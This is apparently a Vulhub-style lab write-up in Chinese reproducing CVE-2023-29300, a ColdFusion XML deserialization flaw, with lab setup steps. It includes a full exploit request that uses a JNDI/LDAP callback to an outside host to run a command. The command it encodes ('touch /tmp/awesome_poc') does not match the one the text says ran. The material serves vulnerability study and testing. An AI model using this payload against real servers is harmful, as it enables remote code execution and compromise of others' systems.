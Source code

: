 # Adobe ColdFusion XML 反序列化命令执行漏洞 CVE-2023-29300

## 漏洞描述

Adobe ColdFusion是美国Adobe公司的一款动态Web服务器产品，其运行的CFML（ColdFusion Markup Language）是针对Web应用的一种程序设计语言。

Adobe ColdFusion在2018.0.16、2021.0.6、2023.0.0.330468版本及以前，存在一处XML反序列化漏洞。攻击者可以利用该漏洞调用Java中任意setter方法，最终执行任意命令。

参考链接：

- [https://blog.projectdiscovery.io/adobe-coldfusion-rce/](https://blog.projectdiscovery.io/adobe-coldfusion-rce/)
- [https://xz.aliyun.com/t/13413](https://xz.aliyun.com/t/13413)

## 环境搭建

Vulhub启动一个Adobe ColdFusion 2018.0.15服务器：

```
docker compose up -d
```

等待一段时间后环境启动成功，访问`http://your-vps-ip:8500/CFIDE/administrator/index.cfm`，输入密码`vulhub`，即可成功安装Adobe ColdFusion。

![](../Web应用漏洞/images/Adobe%20ColdFusion%20XML%20反序列化命令执行漏洞%20CVE-2023-29300/image-20240226160629443.png)

## 漏洞复现

要利用这个漏洞，需要先找到一个可利用的setter方法作为Gadget。最常见的Gadget是利用`com.sun.rowset.JdbcRowSetImpl`来进行JNDI注入，并执行任意命令。

首先，启动一个恶意JNDI服务器，并加载`CommonsBeanutils1`作为内层反序列化Gadget。Github上有数个工具可以使用，比如[https://github.com/rebeyond/JNDInjector/releases](https://github.com/rebeyond/JNDInjector/releases)：

![](../Web应用漏洞/images/Adobe%20ColdFusion%20XML%20反序列化命令执行漏洞%20CVE-2023-29300/image-20240226154836838.png)

然后，将恶意LDAP地址替换到如下请求中发送：

```
POST /CFIDE/adminapi/accessmanager.cfc?method=foo&_cfclient=true HTTP/1.1
Host: your-vps-ip:8500
Accept-Encoding: gzip, deflate
Accept: */*
Accept-Language: en-US;q=0.9,en;q=0.8
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/114.0.5735.134 Safari/537.36
Cache-Control: max-age=0
Content-Type: application/x-www-form-urlencoded
Content-Length: 333

argumentCollection=<wddxPacket version='1.0'><header/><data><struct type='xcom.sun.rowset.JdbcRowSetImplx'><var name='dataSourceName'><string>ldap://192.168.24.1/HiJbyQaUgJ/CommonsBeanutils1/Exec/eyJjbWQiOiJ0b3VjaCAvdG1wL2F3ZXNvbWVfcG9jIn0=</string></var><var name='autoCommit'><boolean value='true'/></var></struct></data></wddxPacket>
```

可见，`touch /tmp/success`已被成功执行：

![](../Web应用漏洞/images/Adobe%20ColdFusion%20XML%20反序列化命令执行漏洞%20CVE-2023-29300/image-20240226154946942.png)
